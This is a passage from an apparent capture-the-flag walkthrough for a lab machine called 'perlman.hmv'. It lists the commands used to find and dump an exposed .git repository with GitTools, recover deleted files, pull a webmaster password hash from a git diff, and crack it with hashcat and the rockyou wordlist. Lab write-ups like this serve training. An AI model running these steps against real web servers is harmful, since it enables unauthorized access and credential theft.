

4.2 Get .git repository information
1. On your Kali Machine clone the https://github.com/internetwache/GitTools.git.
$ git clone https://github.com/internetwache/GitTools.git
2. Go to “~/perlman/GitTools/Finder” and create a file called “input.txt” with the content “perlman.hmv” without any empty line.
3. Run the following code to find websites with their .git repository available to the public.
$ python3 gitfinder.py -i input.txt
Output:
4. Download as much as possible from the found .git repository from webservers which do not have directory listing enabled. Go to “~/perlman/GitTools/Dumper”.
$ ./gitdumper.sh http://perlman.hmv/.git/ .
Output:
5. Git status.
$ git status
Output:
6. Recover deleted files.
$ git reset --hard
$ ls -l
Output:

6. Git log.
List commits that are reachable by following the parent links from the given commit(s), but exclude commits that are reachable from the one(s) given with a ^ in front of them. The output is given in reverse chronological order by default.
$ git log --oneline
Output:
7. Git diff.
Show changes between commits, commit and working tree, etc.
$ git diff 0cf1c46 d29e544
Output:
You can see there's a webmaster password in the second line.
8. Create a file called “hash” and paste the password.
9. Decode the password with “hashcat”.
$ hashcat hash -a 0 /usr/share/wordlists/rockyou.txt
Output:
10. Create a file called “users” with content rita:cookie.